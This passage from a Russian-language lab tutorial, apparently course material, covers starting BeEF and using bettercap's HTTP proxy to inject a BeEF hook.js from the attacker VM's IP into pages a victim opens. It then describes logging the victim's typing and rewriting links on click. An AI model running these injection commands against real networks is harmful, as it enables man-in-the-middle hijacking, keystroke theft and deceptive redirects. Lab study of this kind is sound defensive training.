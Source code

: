 Для проверки необходим сайт, который обычно открывается по https. В случае ошибок можно закрыть браузер и сбросить профиль: из терминала выполнить `rm -rf ~/.mozilla`.

## Запуск BeEF
1. В меню выбрать `beef start`, ввести новый пароль от пользователя beef
2. Дождаться запуска браузера, закрыть терминал
3. Авторизоваться с логином beef и ранее введенным паролем

## Инъекция BeEF
Заражает открываемые жертвой страницы скриптом beef.

Пример ввода в bettercap, где 192.168.100.194 - IP адрес ВМ атакующего (отображается в bettercap):
```text
http.proxy off
set http.proxy.injectjs http://192.168.100.194:3000/hook.js
http.proxy on
```

Результат в beef после открытия http://example.com/ на ВМ пользователя сети: \
![Список открытых сессий](img/4/beef_hooked.png)

В данном примере сессия не будет закрыта пока пользователь не закроет страницу http://example.com/. Если пользователь на этой странице введет "hello world" (не обязательно в поле ввода), то в ВМ атакующего результат будет выглядеть так: \
![Логи Beef](img/4/beef_logs.png)

## Перезапись ссылок
Используем `Link Rewrite (Click Events)` для перезаписи ссылок. Преимущество варианта с "Click Events" заключается в том, что фактическая перезапись ссылки произойдет только при нажатии на нее, а до этого жертва будет видеть старую ссылку. Подобное поведение можно считать легкой формой [кликджекинга](https://ru.wikipedia.org/wiki/Кликджекинг). Кроме злоумышленников, подобным обманом занимаются поисковые системы для отслеживания нажатий пользователей.

![Перезапись ссылок в BeEF](img/4/beef_link_rewrite.png)
